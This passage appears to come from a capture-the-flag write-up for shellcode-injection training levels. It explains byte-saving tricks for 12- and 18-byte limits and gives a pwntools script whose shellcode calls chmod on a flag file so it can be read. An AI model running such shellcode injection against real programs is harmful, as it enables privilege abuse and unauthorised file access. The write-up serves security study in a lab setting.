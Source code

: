Run it with `python injection.py`. This shellcode will grant you acces to the flag, so you'll be able to see it with `cat /flag`

> For this level too we'll start from the code of **level8**, as it is only 18 bytes long and therefore there will be less chances of having repeated bytes. There is though a change. Instead of having:
>
> ```assembly
> push 0777
> pop rsi
> ```
>
> we now do that with `mov sil, 7` because the `push 0777 `instruction shares a byte with `push 0x67616c66`. **sil** is the lower 8 bits of **rsi**, and we are forced to use the **0007** permission because that integer is only one byte long. We cannot use **0777** because it would be converted to `0x01 0xff`, which requires two bytes. To move two bytes into **rsi**, we need to use **si**, which is the lower 16 bits of **rsi**. Unfortunately, even `mov si, 0777` shares a byte with `push 0x67616c66`. We cannot use `mov rsi, 0777` directly either, because that would convert the number to four bytes: `0x01 0xff 0x00 0x00`, leading to another byte repetition.

<div alt="page-break" class="page-break"></div>

## Level13

> **From the challenge description:** Reading 0xc bytes from stdin (= 12 bytes).

**injection.py** (this is the script of **level1**)

```python
from pwn import *
import subprocess

file = "/challenge/babyshell_level13"
context.update(arch="x86-64", encoding="latin")

shellcode = '''
    push 0x66 /* f */
    push rsp
    pop rdi

    push 7
    pop rsi

    push 90
    pop rax
    syscall
'''
shellcode = asm(shellcode)

process = subprocess.Popen([file], stdin=subprocess.PIPE) # NO cwd="/" HERE!
process.communicate(shellcode)
```
